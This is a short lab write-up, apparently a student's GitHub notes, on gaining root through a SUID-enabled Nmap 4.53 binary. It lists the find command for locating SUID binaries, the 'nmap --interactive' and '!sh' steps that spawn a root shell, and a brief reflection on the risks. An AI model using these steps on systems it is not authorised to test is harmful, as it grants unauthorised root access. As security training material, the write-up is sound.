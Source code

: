 # Lab05 – Privilege Escalation via SUID Nmap Binary

## Objective
Gain root privileges on a Linux system by exploiting a misconfigured SUID binary of an older Nmap version with interactive shell mode.

## Vulnerability
Nmap version 4.53 is installed with the SUID bit set. This version allows execution of system commands through interactive mode using `!sh`.

## Steps

1. **Identify SUID binaries:**
   ```bash
   find / -perm -4000 -type f -name "*nmap*" 2>/dev/null
   
2. **Run Nmap in interactive mode:**
   ```bash
   /usr/bin/nmap --interactive
   
3. **Spawn a root shell:**
   ```bash
   nmap> !sh
   
4. **Verify root access:**
   ```bash
   whoami
   id

## Screenshot
![Nmap Privilege Escalation](../Screen Shot 2025-05-29 at 15.36.53.png)

## What I Learned
Learned how SUID binaries can be exploited for local privilege escalation

Understood the risks of leaving outdated tools with elevated privileges

Successfully gained root shell through nmap --interactive feature

## Date

29 May 2025
